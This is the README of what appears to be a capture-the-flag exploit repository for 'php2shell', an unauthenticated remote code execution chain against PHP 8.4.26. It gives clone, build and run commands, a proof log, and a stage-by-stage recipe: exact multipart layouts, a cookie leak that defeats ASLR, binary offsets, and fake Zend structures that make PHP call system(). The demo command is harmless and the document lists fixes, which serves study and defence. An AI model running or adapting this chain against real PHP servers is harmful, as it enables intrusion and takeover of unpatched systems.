

# Local php2shell reproduction on PHP 8.4.26

This directory contains a local-only, end-to-end reproduction of the PHP
request-cleanup and stale-global-state exploit chain commonly called
**php2shell**. It demonstrates unauthenticated command execution inside a
single PHP 8.4.26 worker and records the proof in [`proof.log`](proof.log).

The refactored implementation was validated on 2026-10-26 against the pinned
official PHP image. It succeeded on the first attempt:

```text
LOCAL-ONLY php2shell proof
utc=2026-10-26T00:39:17.844469+00:00
container_id|image_id=ba228c65f609b8b84e391a3ae7045617a0ffec8531ee1122c0cc5345047b91f6|sha256:fa18375fe6fd6a46bd4ea21833b03ce759434475d2a2bbb24851002777b52002
target=http://127.0.0.1:18082 PHP=8.4.26
sizes seed=305042 A1=1045243 B1=339678 A2=279369
attempt=1 seed=314 A1=313 B1=5728 main=0x7f5c07c00000 php=0x55f0f1000000 zif_system=0x55f0f1508a70
B2=451384 S=0x7f5c07cf5398 status='HTTP/1.1 200 OK'
response='LOCAL_PHP2SHELL_RCE_PROOF uid=0 gid=0'
RESULT=LOCAL_RCE_CONFIRMED
```

`uid=0` is the identity inside this disposable container. It does not represent
root access to the Docker host.

## Files

| Path | Purpose |
|---|---|
| `Dockerfile` | Builds the pinned PHP 8.4.26 lab image. |
| `lab/index.html` | Static landing page, intentionally not a PHP target. |
| `lab/php-version.php` | Readiness/version endpoint. |
| `lab/ping.php` | Benign PHP endpoint used for every exploit POST. |
| `print-flag` | Harmless local proof command that prints its container UID/GID. |
| `exploit_primitives.py` | Typed multipart encoder, stage builders, leak parser, and Zend memory-layout builders. |
| `lab_runtime.py` | Local HTTP transport, response model, readiness checks, and Docker lifecycle adapter. |
| `local_proof.py` | Payload validation, exploit-stage orchestration, retry policy, and proof recording. |
| `proof.log` | Transcript of the last successful run. It is deleted at the beginning of every new run and written only after the response is verified. |

There is no remote watcher or remote target mode in this directory. The former
remote runner/checker was deleted after the challenge ended.

## Code organization

The implementation separates deterministic data construction from runtime I/O
and orchestration:

- `MultipartEncoder` owns the multipart wire format and supports the three
  header styles required by the allocator choreography.
- `BinaryLayout` provides typed little-endian writes for the fake Zend
  structures.
- `CheapBodySpec`, `NestedFile`, `FileHeaders`, and `AddressLeak` carry validated
  stage inputs and derived addresses without loose dictionaries.
- `LocalHttpClient` owns raw socket exchange and returns `HttpResponse` values
  with normalized status and body accessors.
- `DockerTarget` owns container inspection and restart timing.
- `PayloadSet` constructs and validates every fixed stage before network I/O.
- `ProofRunner` coordinates the leak and execution phases and writes evidence
  only after the response marker and HTTP status are verified.

The source contains no explanatory comments or docstrings. The two executable
scripts retain only their interpreter directives.

## Reproduce the proof

Requirements:

- an x86-64 Linux Docker host;
- Python 3.10 or newer;
- Docker access for the user running `local_proof.py`;
- local TCP port `18082` available.

Build and start a fresh container:

```bash
git clone https://github.com/Erwann9875/stealmybitcoin-ctf-attempt.git
cd stealmybitcoin-ctf-attempt

docker build -t php2shell-local:8.4.26 .
docker rm -f php2shell-local-proof 2>/dev/null || true
docker run -d \
  --name php2shell-local-proof \
  -p 127.0.0.1:18082:8000 \
  php2shell-local:8.4.26
```

Run the chain:

```bash
python3 local_proof.py --attempts 12
```

Success requires all three final checks:

1. B1 yields a 2,048-byte decoded cookie containing both heap and PIE pointers.
2. B2 returns `HTTP/1.1 200 OK`.
3. The HTTP body contains `LOCAL_PHP2SHELL_RCE_PROOF`.

The script then writes `RESULT=LOCAL_RCE_CONFIRMED` to `proof.log` and exits
with status 0. A failed run does not leave an old proof file in place.

To remove the lab:

```bash
docker rm -f php2shell-local-proof
docker image rm php2shell-local:8.4.26
```

## Why `ping.php` is the target instead of `index.html`

The vulnerable code runs in PHP's request startup and multipart upload parser,
before the application script receives control. A request still has to be
dispatched to a PHP SAPI worker for that parser to run.

`index.html` is static. A web server can return it without invoking PHP, so a
multipart POST to that file does not enter the vulnerable PHP request lifecycle.
`ping.php` is sufficient even though its application code is harmless:

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && ($_POST['message'] ?? null) === 'ping') {
    echo "pong\n";
    return;
}
```

The exploit does not depend on this condition or on an application bug. It
depends on the request being parsed by vulnerable PHP 8.4.26. In a proxied
deployment, any route known to reach the same PHP worker can serve this role.

## Vulnerability model

The chain combines the primitives described by:

- **CVE-2026-109618**: memory corruption caused by an out-of-memory bailout
  during request cleanup;
- **CVE-2026-109619**: request-owned global state that remains stale and is
  reused by a later request handled by the same worker.

PHP's multipart parser supports session upload progress. A request containing
`PHP_SESSION_UPLOAD_PROGRESS` and file parts invokes session code while the
multipart body is still being parsed. Carefully chosen field counts, nesting,
and value sizes fill ZendMM bins and pages until a specific allocation fails at
the 128 MiB `memory_limit`.

An OOM is implemented as a bailout, similar to a non-local jump. In the affected
versions, selected paths do not reset every request-owned session global before
the worker accepts another request. Pointers such as `PS(id)`,
`PS(mod_data)`, and `PS(http_session_vars)` can therefore refer to memory that
the next request is free to reuse.

The Docker PHP built-in server is deliberately used because it is a single
long-lived worker. That guarantees that seed, A1, B1, A2, and B2 reach the same
process. On a multi-worker SAPI, an exploit needs worker affinity or enough
retries; this explains the instability that was observed behind nginx under
load.

PHP 8.4.27 is the first fixed 8.4 release. The upstream fixed releases are
8.2.35, 8.3.36, 8.4.27, and 8.5.12.

## Request sequence



The exact order matters. The seed must be the first HTTP request after the
container restart. `local_proof.py` waits 100 ms after `docker restart` without
sending a readiness request, then sends the seed. A readiness GET before the
seed changes the ZendMM allocation history and breaks the calibrated layout.
The 100 ms delay replaces the incidental process-start delay present in the
original multi-script research harness.

All exploit requests use ordinary HTTP/1.1 with `Content-Length`. No chunked
encoding or `post_max_size` bypass is needed. Every body is below 1 MiB.

## Stage-by-stage details

### 1. Seed request

The 305,042-byte seed contains:

- `PHPSESSID=a`;
- `PHP_SESSION_UPLOAD_PROGRESS=k0`;
- one real file part with a 32,768-byte field name, filename `A.txt`, and a
  64-byte value;
- 880 nested empty-file parts at depth 64.

This request prepares the allocator and forces a controlled OOM while session
upload progress is active. On the validated run its raw HTTP response was 314
bytes and contained the expected `Allowed memory size` fatal error. The worker
stays alive.

Only after this OOM does the harness send `GET /php-version.php`. That confirms
that the same worker survived and is ready for A1.

### 2. A1: stale session ID producer

A1 is 1,045,243 bytes, just 3,333 bytes below the 1 MiB cap. Its shape is:

- `PHPSESSID` with the single byte `0x00`;
- 860 nested empty-file fields, depth 64, with 87 bytes of key padding;
- special Content-Type lengths of 103 and 231 bytes for the first two fields;
- 14 fields shaped for the 128-byte ZendMM bin;
- 78 values of 8,000 bytes;
- 20 values of 4,000 bytes;
- a 4,000-byte session progress value;
- one post-progress file field with a 136-byte name and 88-byte filename.

The URL also carries eight query parameters, `q0000=v` through `q0007=v`.
They shift the early `_GET` allocations so the stale session objects land in
the intended slots.

The allocation failure occurs in the session reset/cookie path, reached through
`php_session_rfc1867_callback`. The useful state after bailout is a stale
session ID together with cookie/session cleanup state that is still live for the
next request.

### 3. B1: out-of-bounds cookie leak

B1 is 339,678 bytes. It starts with 866 tightly encoded nested file parts, then
adds `PHPSESSID=a` and a 35-byte progress value.

Its first query value is:

```text
"V" * 7 || little_endian_u64(0x800) || "a"
```

Six additional 16-byte query values stabilize the allocation geometry. B1
reclaims the memory referenced by the stale A1 session ID and gives the forged
`zend_string` a length of `0x800`. When PHP URL-encodes that ID for
`Set-Cookie`, it copies 2,048 bytes instead of the original short ID. Those
bytes are residual allocator contents from A1.

`parse_leak()` URL-decodes the cookie and requires an exact 2,048-byte result.
It then reads aligned 64-bit words:

- values in `0x7f00_0000_0000..0x7fff_ffff_ffff` are grouped by their
  2 MiB-aligned ZendMM chunk base using `value & ~0x1fffff`;
- values in `0x5000_0000_0000..0x5fff_ffff_ffff` are treated as PHP PIE
  candidates.

The most frequent heap cluster becomes `main_chunk`. A PIE candidate is
accepted only when subtracting `0x702260` or `0x1231b68` produces a 2
MiB-aligned base. For the recorded run:

```text
main_chunk = 0x7f5c07c00000
php_base   = 0x55f0f1000000
zif_system = php_base + 0x508a70
           = 0x55f0f1508a70
```

The fixed offsets are specific to the pinned x86-64 PHP 8.4.26 binary. The
parser aborts if it cannot recognize a valid aligned anchor rather than using a
guessed address.

### 4. A2: stale `http_session_vars`

A2 is a second cheap-OOM request. It contains 115 short filler fields, 880
depth-64 nested file fields, a 32-byte session ID, and `k0` as the progress
value. Its 279,369-byte layout leaves a dangling `PS(http_session_vars)` that
B2 can reclaim with controlled multipart values.

### 5. B2: fake reference, fake array, and command execution

B2 computes two addresses from the B1 leak:

```text
S          = main_chunk + 0x0f5398
zif_system = php_base   + 0x508a70
```

For the recorded run, `S = 0x7f5c07cf5398`.

The 451,384-byte body contains 500 spray fields, one `ht` field, the session
fields, and another 495 spray fields. Every spray value is 384 bytes and holds
a fake 32-byte `zend_reference` every 32 bytes starting at offset 8:

| Offset | Value | Meaning |
|---:|---:|---|
| `+0x00` | `1` | Reference count; destruction reaches zero. |
| `+0x04` | `0x0a` | `IS_REFERENCE`. |
| `+0x08` | `S` | Pointer to the fake array. |
| `+0x10` | `0x0107` | Embedded zval type information used by this layout. |

The `ht` field contains a 384-byte fake `zend_array` at `S`:

| Offset | Important value |
|---:|---|
| `S+0x00` | GC header: refcount 1, array type. |
| `S+0x10` | `arData = S + 0x20`. |
| `S+0x18` | One used element and one live element. |
| `S+0x30` | `pDestructor = zif_system`. |
| `S+0x20` | Overlapping fake `zend_execute_data`. |
| `S+0x70` | Pointer to the first argument at `S+0x80`. |
| `S+0x80` | Fake `zend_string` containing `print-flag`. |

When PHP releases the reclaimed stale reference, the fake array's destructor is
called. The crafted overlapping `zend_execute_data` presents one string
argument, so PHP's internal `zif_system` handler executes `print-flag`. Standard
output becomes the HTTP response body.

The proof helper is intentionally harmless:

```sh
#!/bin/sh
printf 'LOCAL_PHP2SHELL_RCE_PROOF uid=%s gid=%s\n' "$(id -u)" "$(id -g)"
```

Neither PHP endpoint contains this marker or invokes a shell. Receiving the
marker in B2's HTTP response therefore demonstrates that the destructor path
reached the chosen command.

## Exact request sizes and hashes

The first four bodies are deterministic. B2 embeds ASLR-derived addresses, so
its hash applies to the recorded run only.

| Body | Bytes | SHA-256 |
|---|---:|---|
| seed | 305,042 | `5e4967482a422e52564ef554204449cd958193d966c426b4d024c012a4c3dcbb` |
| A1 | 1,045,243 | `90eba9c30857136cf45b8be06f9edd8797df1ae4561e176af09d57b690eadf1e` |
| B1 | 339,678 | `7a1eb050bf3faf9ee098665e42c49e60b9fe5b95d8554775d009682eddc377b7` |
| A2 | 279,369 | `7af66c8f35c5fa6b47a539da6dca361d19543d9f62d61e4af891c2802bd5e236` |
| B2, recorded ASLR values | 451,384 | `21d84bcf83b0dadfd3b9ab8fffa354f2954d83d0a9167674bc7a900574458e27` |

The one-MiB limit is 1,048,576 bytes. A1 is the largest body and remains below
it.

## Determinism and troubleshooting

This exploit is heap-layout sensitive by design. The harness controls the
important variables:

- the Docker base is pinned to
  `php:8.4.26-cli@sha256:e2432ac85c3454004d89e3d75615abd2d205b7ffb9590e586fad1a053f016bb3`;
- the server is the single-worker PHP built-in server;
- headers and body are sent together through one `socket.sendall()` call;
- the seed is the first HTTP request after restart;
- every multipart byte count is checked before execution;
- failed ASLR parsing causes a retry from a fresh PHP process.

Useful failure meanings:

| Message | Meaning |
|---|---|
| `seed OOM was not observed` | PHP was not ready or the seed layout/configuration changed. The harness retries after another restart. |
| `B1 response has no session cookie` | A1/B1 did not reclaim the intended stale ID on that attempt. |
| `leak lacks a heap or PIE anchor` | A cookie leaked bytes, but no safe address pair matched the pinned profile. |
| `worker did not survive B1` | The corrupted worker exited before A2. |
| `B2 did not return the local print-flag proof` | The final destructor call did not reach the proof command. |

The B2 response may be delivered before the corrupted PHP process exits. A
stopped container after a successful proof is therefore possible; the signed
success condition is the verified 200 response and marker in `proof.log`.

## Fixed releases and mitigations

The correct fix is to update PHP to a fixed release: 8.2.35, 8.3.36, 8.4.27,
or 8.5.12, or use a vendor package with the corresponding backport. Disabling
`session.upload_progress` and restarting workers can reduce exposure while an
update is being deployed, but they are temporary mitigations rather than a
substitute for the fix.

## References

- [PHP security advisory, 21 October 2026](https://www.php.net/archive/2026.php#2026-10-21-5)
- [NCSC-NL php2shell operational information](https://github.com/NCSC-NL/php2shell)
- [9bie/php2shell-bypass-aslr-exp](https://github.com/9bie/php2shell-bypass-aslr-exp)
- [OpenAI PHP version checker](https://github.com/openai/php2shell-checker)
